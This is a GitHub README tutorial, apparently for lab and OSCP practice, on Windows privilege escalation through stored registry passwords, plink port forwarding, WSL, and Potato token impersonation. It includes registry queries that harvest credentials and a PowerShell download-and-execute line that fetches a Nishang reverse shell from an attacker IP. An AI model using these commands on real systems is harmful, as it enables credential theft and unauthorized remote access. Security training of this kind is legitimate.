

# Windows-Privilege-Escalation

In this, we will start with an low privilege shell on the box, and will try to find out ways to escalate our privileges to get system level access on the machine. At this stage, we don't know anything about the machine. We'll enumerate the machine to find out anything that will help us to escalate our privileges.

## Required Tools
- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [Sherlock](https://github.com/rasta-mouse/Sherlock)
- [Nishang](https://github.com/samratashok/nishang)
- [Metasploit-local exploit suggester](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)
- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- [Winexe](https://tools.kali.org/maintaining-access/winexe)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

## Contents
- [Escalation Path Password and Port Forwarding](https://github.com/ayushpathak29/Windows-Privilege-Escalation#Escalation-Path-Password--Port-Forwarding)
- [Escalation Path Windows Subsystem for Linux (WSL)](https://github.com/ayushpathak29/Windows-Privilege-Escalation#Escalation-Path-Windows-Subsystem-for-Linux-(WSL))
- [Token Impersonation](https://github.com/ayushpathak29/Windows-Privilege-Escalation#Token-Impersonation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)

### Escalation Path Password and Port Forwarding

1. Lets start enumerating the box with an low priviliged shell.


2. Firstly, run ```systeminfo``` to find out basic information about the machine.


3. After that, we list the other user accounts on the box by command ```net user```. To view our own user's information in a bit more detail type ```net user username``` username = alfred in this case.
 

4. Now, let's find out Services that are only available from inside. ```netstat -ano```


We found out that SMB and some other services are running inside the machine on local address and are only accesible from inside the box. We don't know credentials of any user/service yet. So let's enumerate some passwords. 

5.So let's enumerate some cleartext passwords in Registry.
```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


Great, we found out cleartext password of Admin User.

6. Now we will use [plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) to port forward that internal SMB service. First of all, let's download the plink file into our machine.


7. Now forward port to your kali machine by typing the following command in the machine.
```plink.exe -l root -pw password <ip> -R 445:127.0.0.1:445```
This will allow us to access the SMB service from our kali machine.

8. Now you will get into your own terminal. Enter the following command and see that we are succesfully connected to the port.


9. Now, we'll use winexe tool to execute commands on windows box and try to login into the machine with the password we got earlier from Winlogon.


And we successully got loged-in as a administrator and escalated our privileges.

### Escalation Path Windows Subsystem for Linux (WSL)

1. 1. Lets start enumerating the box with an low priviliged shell.


2. Let's find out if there is any bash.exe or wsl.exe hidden in the machine.


3. Interesting, we find out both files, now lets run the wsl.exe and give it the "whoami" command to find out under which user is this running.

Great! It's running under the root user. Now you can try something like ```wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'``` to get a shell if this works. But here we'll use another method.

4. Let's run the bash.exe file, this will bring us a bash command prompt.

We have not escalated our privileges yet, so don't get excited seeing "root". We are in linux shell under the windows machine. Now let's enumerate this if we can find something interesting.

5. Under .bash_history we got credentials of SMB for Admin user.


6. Let's try to login into SMB with the credentials we got.


7. Great, it's working and we are able to login into SMB as admin user but this is not a shell, so let's get a semi-interactive shell with smbexec.


### Token Impersonation and Potato Attacks

1. Let's start our enumeration by looking for privileges of our user by running ```whoami /priv```. See, we got SeImpersonatePrivilege is "Enabled".


2. Let's run [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to find out exploits for this machine. Run ```systeminfo``` command and copy its output in a file in your kali machine and run the Exploit suggester script.

We see, it suggests us [Hot-Potato](https://pentestlab.blog/2017/04/13/hot-potato/) exploit for this machine. 

3. Let's download a [Potato](https://github.com/ohpe/juicy-potato/releases) executable into our machine.


4. Running potato executable


5. Now create a bat script with the following data and put it into the windows machine.
```powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.3:5555/sh.ps1')``` 
where sh.ps1 is [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/tree/master/Shells)

6. Now start a nc listener in your kali machine and run the potato executable as in the following screenshot.  


7. As you can see we can successfully escalated our privileges.


There are also other metasploit modules available which can perform this task automatically.

### Runas


### Resources
- [Fuzzysecurity](https://www.fuzzysecurity.com/tutorials/16.html)
- [OSCP-guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
